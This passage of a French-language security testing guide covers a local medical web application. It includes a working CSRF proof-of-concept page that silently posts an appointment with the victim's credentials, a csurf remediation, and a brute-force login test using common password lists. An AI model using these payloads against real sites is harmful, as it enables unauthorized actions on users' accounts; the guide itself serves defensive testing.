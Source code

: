 2. Ouvrez ce fichier dans un navigateur pendant que vous êtes connecté à l'application dans un autre onglet

**Résultat attendu**: Le formulaire se soumet automatiquement et ajoute un médicament sans votre intervention explicite.

### Test 2: CSRF avec XMLHttpRequest

```html
<html>
<body>
<script>
  function sendCSRF() {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://localhost:3000/appointment/add", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.withCredentials = true;
    xhr.send("patient=John&doctor=Smith&date=2023-12-25");
  }
  sendCSRF();
</script>
</body>
</html>
```

### Remédiation CSRF

Pour tester l'efficacité de la protection CSRF:

1. Installez csurf: `npm install csurf`
2. Implémentez le middleware:
   ```javascript
   const csrf = require('csurf');
   const csrfProtection = csrf({ cookie: true });
   
   app.use(csrfProtection);
   ```
3. Ajoutez le token CSRF à tous les formulaires:
   ```html
   <form action="/action" method="POST">
     <input type="hidden" name="_csrf" value="<%= csrfToken %>">
     <!-- autres champs -->
   </form>
   ```
4. Testez à nouveau avec les formulaires CSRF automatisés - ils devraient échouer maintenant

## Tests d'Authentification

### Test 1: Brute Force

**Objectif**: Tester la résistance aux attaques par force brute.

**Procédure**:
1. Créez un script (ou utilisez Burp Intruder) pour envoyer de multiples requêtes d'authentification
2. Utilisez une liste de mots de passe courants
3. Observez si l'application limite les tentatives ou verrouille le compte
